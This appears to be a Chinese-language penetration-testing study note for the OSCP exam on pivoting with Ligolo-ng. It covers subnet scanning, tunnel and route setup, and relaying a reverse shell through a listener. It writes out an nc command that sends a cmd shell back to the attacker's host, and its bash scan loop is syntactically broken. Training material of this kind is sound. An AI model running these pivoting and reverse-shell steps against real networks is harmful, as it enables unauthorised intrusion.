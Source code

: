 >[!章節重點]
>轉發技術跟通道技術

* 內網主機發現 : 可以用nmap binary或是bash掃描
``` bash
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; & done
```
[nmap掃描 ](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)
# Ligolo-ng
>[!章節重點]
>OSCP frandly工具，大大的推這個東西。可以不透過難用的socks來運作。
- [Github 連結](https://github.com/nicocha30/ligolo-ng)
## 轉發設定
>Ligolo-ng需要兩個東西，agent跟proxy，agent裝在Piovt Host，proxy放在kali linux裡面
### Kali端設定
- 開啟ligolo Interface
``` shell
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
```
- 開啟proxy
``` shell
./proxy -selfcert
```
### Piovt Host端設定
``` shell
./agent.exe -connect 192.168.45.206:11601 -ignore-cert
```
### 開啟Piovt功能
當agent回連後，在kali端選擇session，並打`start`，就可以開始運作
- 新增Route，才可以用
``` shell
sudo ip route add 172.16.206.0/24 dev ligolo
```
### 開啟Local-Port Forwarding
只要加入`http://240.0.0.1/32`，就會自動做到轉發`127.0.0.1`的東西
```
sudo ip route add 240.0.0.1/32 dev ligolo
```
## Reverse Shell設定
>[!warning ] 小節重點
>當需要再某內網台轉發的主機做Reverse Shell的時候，沒辦法直接轉到自己的ip位置，但是可以用`listener`的功能。
### 目標機器
>需要把port指向Ligolo-ng開啟的port
``` shell
nc.exe -nv <kali ip address> <port> -e cmd
```
### Kali端設定 
>解釋 : 把1234監聽的東西轉發的4444
``` shell
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444 --tcp
```
- 監聽 port 4444就可以收到reverse shell了
``` shell
rlwrap -cAr nc -lvnp 4444
```
- 檢視`listener`清單
```
listener_list
```
